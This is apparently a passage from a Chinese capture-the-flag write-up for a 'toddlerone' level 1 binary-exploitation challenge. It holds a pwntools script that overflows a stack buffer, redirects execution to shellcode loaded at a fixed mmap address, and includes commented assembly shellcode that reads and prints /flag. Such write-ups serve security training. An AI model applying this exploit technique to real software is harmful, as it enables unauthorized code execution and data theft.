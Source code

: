 这些参数是在程序启动时，由操作系统在堆栈上准备好，然后通过 `_start` 函数传递给 `main()` 函数的。

## level 1

没有开启canary，首先使用mmap创建一个内存空间读取shellcode，这个地址是确定的，所以后续只要直接跳转到这个地址就可以了。

```python

from pwn import *

elf = ELF("/challenge/toddlerone_level1.0")

p = process("/challenge/toddlerone_level1.0")

raw_file = open("/home/hacker/exploit/level1/shellcode.bin", 'rb')
raw_file = raw_file.read()
# file_bytes = len(raw_file)
print(raw_file)
p.sendline(raw_file)

buffer_size = 15 * 8 
padding_size = 8 * 3
rbp = 8
address_ = p64(0x1FF69000)
payload = (buffer_size + padding_size + rbp) * b'A' + address_
p.recvuntil("Payload size: ")
p.sendline(f"{len(payload)}")
p.send(payload)
p.interactive()


"""
BITS 64

section .data
    filename '/flag',0

section .bss
    buffer resb 50

section .text
global _start

_start:
    xor rax, rax
    mov rax, 2
    lea rdi, [rel filename]
    xor rsi, rsi
    syscall

    mov rdi, rax
    lea rsi, [rel buffer]
    mov rdx, 100
    xor rax, rax
    syscall

    mov rdi, 1
    mov rdx, rax
    mov rax, 1 
    syscall
 
"""


```